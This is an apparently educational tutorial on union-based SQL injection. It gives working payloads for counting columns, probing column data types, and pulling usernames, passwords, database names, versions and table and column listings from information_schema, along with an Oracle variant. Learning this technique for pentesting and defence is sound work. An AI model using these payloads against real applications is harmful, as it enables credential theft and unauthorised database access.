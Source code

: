 In a **Union-Based SQL Injection**, the attacker leverages the `UNION` SQL operator to combine results from the original query with results from their injected query. 

When an attacker uses Union-Based SQL Injection, they attempt to combine the results of the original query with their own injected query. However, for this to work properly, certain conditions must be met:

- **Number of Columns**: The original query and the injected query must have the same number of columns.
- **Compatible Data Types**: The data types of the columns in both queries must be compatible.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
- [Oracle SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)  
- [PostgreSQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


---

## 1. Determining the Number of Columns

To carry out a successful `UNION` attack, first we need to know the number of columns in the original query. This is crucial because the `UNION` operator requires both queries to have the **same number of columns** and **compatible data types** to avoid errors. There are two main methods for identifying this:

#### Using ORDER BY

By incrementally increasing the column number in `ORDER BY` clauses, we can find the number of columns by identifying when an error occurs. For example:

```sql
' ORDER BY 1 -- (no error, at least 1 column)

' ORDER BY 2 -- (no error, at least 2 columns)

' ORDER BY N -- (error 500, N exceeds the column count)
```

Once a certain number causes an error, we can deduce that the original query has fewer columns than this value.

#### Using UNION SELECT 

Another approach is to inject `UNION SELECT NULL` with different counts of `NULL` values, matching the number of columns until there’s no error. For example:

```sql
' UNION SELECT NULL -- (error, as more than one column is likely present)

' UNION SELECT NULL, NULL -- (no error, meaning the query likely has 2 columns)

' UNION SELECT NULL, NULL, NULL -- (error, meaning only 2 columns exist)
```

Another way to discover the number of columns in a vulnerable query is by using `' UNION SELECT` with sequential numbers.

```sql
' UNION SELECT 1 -- (error, probably more columns)

' UNION SELECT 1,2 -- (error, keep trying)

' UNION SELECT 1,2,3 -- (no error, 3 columns found)
```

Once the correct number of columns is determined, the information extraction can be executed.

## 2. Identifying Data Types for Columns

After determining the number of columns, we need to identify the data type for each column because the `UNION` operator only works when column data types match across the original and injected query. This is achieved by using `UNION SELECT` injections to test for data types one by one.

#### Methods for Testing Data Types:

- **String Data Type:** Inject a string (e.g., `'a'`) in a `NULL` placeholder to check if a column accepts text.

- **Numeric Data Type:** Use numbers in `NULL` positions to determine columns that accept integers.

- **Date Data Type:** Insert a date value (e.g., `'2023-01-01'`) to test if a column accepts dates.


For example:

```sql
' UNION SELECT 'a', NULL, NULL -- (no error means the first column is likely a text type)

' UNION SELECT NULL, 123, NULL -- (no error means the second column is likely an integer)
```

> **Important Oracle Note**:
 On **Oracle** databases, every **SELECT** statement must specify a table to select from. If your **UNION SELECT** attack does not query from a table, you will still need to include the **`FROM`** keyword followed by a valid table name. A built-in table on Oracle called `dual` can be used for this purpose: `' UNION SELECT 'abc' FROM dual --`  

## 3. Extracting Sensitive Data

Once we know the number and type of columns, they can extract sensitive data by injecting a query that retrieves this data from other tables within the database:

```sql
' UNION SELECT NULL, username, password FROM users --
```

In this example, the `username` and `password` columns are retrieved from the `users` table.

#### Additional Information Extraction

- **Obtain the current database name:**

```sql
' UNION SELECT NULL, database(), NULL -- 
```

- **Check the database version:**

```sql
' UNION SELECT NULL, version(), NULL -- 
```

- **List available tables in information_schema.tables:**
```sql
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables -- 
```

- **List column names from a specific table:**

```sql
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users' -- 
```

